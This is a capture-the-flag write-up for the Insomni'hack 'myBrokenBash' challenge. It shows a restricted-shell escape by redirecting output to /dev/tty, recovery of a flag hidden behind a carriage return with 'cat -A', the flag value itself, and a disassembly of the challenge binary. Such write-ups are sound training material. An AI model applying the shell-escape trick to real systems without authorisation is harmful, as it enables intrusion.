 # myBrokenBash

## About
In this challenge we were provided with a simple echo service.
You could connect to it:

```bash
nc mybrokenbash.insomni.hack 1337
```
And afterwards send some text which got repeated.



Credit to sw1ss

## Step 1: Prison break
I was able to break out of the jail by providing the following input:

```bash
exec > /dev/tty
```
Now we spawned a regular bash shell.

## Step 2: Deeply hidden
When listing the files I found one called flag:

```bash
ls
bin   dev  flag  lib	media  opt   root  sbin  sys  usr
boot  etc  home  lib64	mnt    proc  run   srv	 tmp  var
```

But it didn't reveal everything yet:
```bash
cat flag
almost there ;-)_1t_s_n0t_so_ea4y}
```

Now I only needed to print the 'full' file not only the characters after the carriage return:

```bash
cat -A flag
INS{c@t_th3_Flag_1t_s_n0t_so_ea4y}^Malmost there ;-)$
```

Flag: INS{c@t_th3_Flag_1t_s_n0t_so_ea4y}


## Bonus

Here's the binary I extracted :

```bash
[0x000008c0]> pdf @ main
/ (fcn) main 116
|   main (int argc, char **argv, char **envp);
|           ; var int canary @ rbp-0x8
|           ; DATA XREF from entry0 (0x8dd)
|           0x00000ab4      55             push rbp
|           0x00000ab5      4889e5         mov rbp, rsp
|           0x00000ab8      4883ec10       sub rsp, 0x10
|           0x00000abc      64488b042528.  mov rax, qword fs:[0x28]    ; [0x28:8]=0x1138 ; '('
|           0x00000ac5      488945f8       mov qword [canary], rax
|           0x00000ac9      31c0           xor eax, eax
|           0x00000acb      b800000000     mov eax, 0
|           0x00000ad0      e84bffffff     call sub.dev_urandom_a20
|           0x00000ad5      488d3dec0000.  lea rdi, str.Welcome_to__INS19 ; 0xbc8 ; "*** Welcome to #INS19!! ***\n" ; const char *s
|           0x00000adc      e86ffdffff     call sym.imp.puts           ; int puts(const char *s)
|           0x00000ae1      488d3dfd0000.  lea rdi, str.cat_the_flag_here_please ; 0xbe5 ; "cat the flag here please ;-)" ; const char *s
|           0x00000ae8      e863fdffff     call sym.imp.puts           ; int puts(const char *s)
|           0x00000aed      bf01000000     mov edi, 1                  ; int fildes
|           0x00000af2      e879fdffff     call sym.imp.close          ; int close(int fildes)
|           0x00000af7      bf02000000     mov edi, 2                  ; int fildes
|           0x00000afc      e86ffdffff     call sym.imp.close          ; int close(int fildes)
|           0x00000b01      488d3dfa0000.  lea rdi, str.bin_sh         ; 0xc02 ; "/bin/sh" ; const char *string
|           0x00000b08      e853fdffff     call sym.imp.system         ; int system(const char *string)
|           0x00000b0d      b800000000     mov eax, 0
|           0x00000b12      488b55f8       mov rdx, qword [canary]
|           0x00000b16      644833142528.  xor rdx, qword fs:[0x28]
|       ,=< 0x00000b1f      7405           je 0xb26
|       |   0x00000b21      e832fdffff     call sym.imp.__stack_chk_fail ; void __stack_chk_fail(void)
|       |   ; CODE XREF from main (0xb1f)
|       `-> 0x00000b26      c9             leave
\           0x00000b27      c3             ret



